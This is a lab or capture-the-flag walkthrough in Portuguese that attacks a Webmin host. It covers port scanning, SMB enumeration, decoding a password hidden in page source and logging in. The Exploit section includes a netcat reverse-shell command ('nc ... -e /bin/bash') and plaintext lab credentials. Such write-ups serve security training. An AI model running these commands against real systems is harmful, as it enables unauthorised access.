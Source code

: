 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
└─$ sudo masscan -p 1-65535 --rate=10000 -i tun0 192.168.94.238
![](Pasted%20image%2020230127233253.png)

└─$ sudo nmap -sCV -p 139,10000,445,80,20000 -v -Pn 192.168.94.238  
![](Pasted%20image%2020230127233414.png)

Acessando a porta 80
![](Pasted%20image%2020230127214521.png)

Analisando o código fonte da página conseguimos encontrar alguma mensagem criptografada
![](Pasted%20image%2020230127214608.png)

Para descriptografia eu gosto de utilizar a página dcode.fr
https://www.dcode.fr/cipher-identifier
![](Pasted%20image%2020230127214733.png)

Interpretando a mensagem chegamos no seguinte resultado ---> .2uqPEfj3D<P'a-3
![](Pasted%20image%2020230127215055.png)

Voltando, vamos acessar a porta 10000
![](Pasted%20image%2020230127215205.png)

![](Pasted%20image%2020230127215235.png)

Voltando, vamos acessar a porta 20000
![](Pasted%20image%2020230127233446.png)

Enumerando SMB
└─$ enum4linux 192.168.94.238
![](Pasted%20image%2020230127220503.png)

![](Pasted%20image%2020230127220529.png)

![](Pasted%20image%2020230127221523.png)

Talvez tenhamos conseguido uma credencial
cyber:.2uqPEfj3D<P'a-3

Testando no Webmin da porta 10000 não surtiu efeito, porém no da porta 20000 nós conseguimos acessar
![](Pasted%20image%2020230127233558.png)


## Exploit
![](Pasted%20image%2020230128002824.png)

![](Pasted%20image%2020230128003120.png)

![](Pasted%20image%2020230128003212.png)

![](Pasted%20image%2020230128003932.png)

![](Pasted%20image%2020230128003916.png)
 Ts&4&YurgtRX(=~h

nc 192.168.xx.xx 443 -e /bin/bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
su root
![](Pasted%20image%2020230128004610.png)

## Privesc  


## Discoveries
